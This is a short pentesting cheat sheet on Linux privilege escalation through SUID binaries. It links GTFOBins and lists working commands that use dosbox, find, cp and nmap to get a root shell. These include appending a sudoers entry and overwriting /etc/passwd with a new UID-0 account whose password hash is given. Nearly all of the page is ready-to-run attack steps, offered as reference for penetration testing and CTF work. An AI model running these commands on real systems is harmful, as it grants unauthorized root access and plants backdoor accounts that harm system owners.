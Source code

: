 ```yaml
---
description: Using programs which has SUID bit to root shell.
---
```


# SUID

```
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io" %}

### dosbox

```
$ dosbox -c 'mount c /etc' -c 'echo test ALL=(ALL) ALL >> C:\sudoers' -c exit
```

### find

```
find . -exec /bin/sh -p \; -quit
```

### cp&#x20;

[https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/)&#x20;

```
$ openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1

$ mkdir /tmp/privesc && cd /tmp/privesc
$ cp /etc/passwd .
$ cp passwd passwd.bak

$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> ./passwd
$ cp ./passwd /etc/passwd

$ su ch
password: pass123

# Restoring the original
$ cp /tmp/privesc/passwd /etc/passwd && rm -rf /tmp/privesc
```

### nmap

```
$ nmap --interactive
nmap> !sh

-----------------------

$ TF=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $TF
$ nmap --script=$TF

-----------------------

$ echo 'os.execute("/bin/sh")' > /tmp/x.nse
$ nmap --script /tmp/x.nse
```

